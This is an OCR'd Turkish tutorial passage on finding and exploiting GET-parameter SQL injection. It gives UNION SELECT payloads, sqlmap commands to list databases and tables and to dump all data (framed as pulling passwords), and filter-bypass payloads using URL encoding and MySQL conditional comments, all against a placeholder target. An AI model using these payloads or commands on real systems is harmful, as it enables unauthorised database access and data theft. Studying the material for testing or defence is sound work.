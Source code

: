 Eğer sayfa değişiyorsa, SQL Injection açığı olabilir.
- 3. UNION Based SQLi Testi
plaintext
```sql
https://target.com/product.php?id=5 UNION SELECT 1,2,3--
```
## Eğer site açık verirse, sayfanın farklı kısımlarında 1, 2, 3 gibi değerleri görebilirsiniz.

3. SQLmap ile GET SQLi Testi
Eğer GET parametresi saldırıya açık görünüyorsa, SQLmap kullanılarak otomatik test yapılabilir.
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --dbs
- --dbs: Veritabanı isimlerini listeler.
```
## Eğer daha fazla detay istenirse:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --tables
- --tables: Veritabanındaki tabloları gösterir.
```
## Eğer şifreleri çekmek isterseniz:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --dump
- --dump: Tüm verileri çeker.
```

4. GET SQLi Bypass Teknikleri
Bazı güvenlik önlemlerini aşmak için şu teknikler kullanılabilir:
- 1. URL Encoding (Filtre Aşma)
Eğer doğrudan tırnaklar (') engelleniyorsa, URL encoding kullanılabilir:
plaintext
```sql
https://target.com/product.php?id=5%27%20OR%201=1--
```

## %27, ' karakterinin URL kodlanmış halidir.
- 2. SQL Komutlarını Değiştirme Bazı filtreleme sistemleri standart SQL kelimelerini engelleyebilir. Bunu aşmak için:
plaintext
```sql
https://target.com/product.php?id=5 /*!50000 UNION */ SELECT 1,2,3--
```

## /*!50000 MySQL’in koşullu yorum özelliğini kullanır ve filtreleri atlatabilir.

## SONUÇ
- GET SQLi Açığını Test Etme
id parametresine ' ekleyerek hata mesajı olup olmadığını kontrol et.
AND 1=1 ve AND 1=2 sorgularını kullanarak Boolean tabanlı test yap.
UNION SELECT ile veri sızdırılıp sızdırılamadığını kontrol et.
```bash
- SQLmap ile Otomatik Test
4. sqlmap -u "https://target.com/product.php?id=5" --dbs komutu ile veritabanı yapılarını keşfet.
```
- Filtreleri Aşma Teknikleri
5. URL encoding, SQL yorumları ve özel karakter kaçırma yöntemlerini dene.
_______________________________________________________________________________________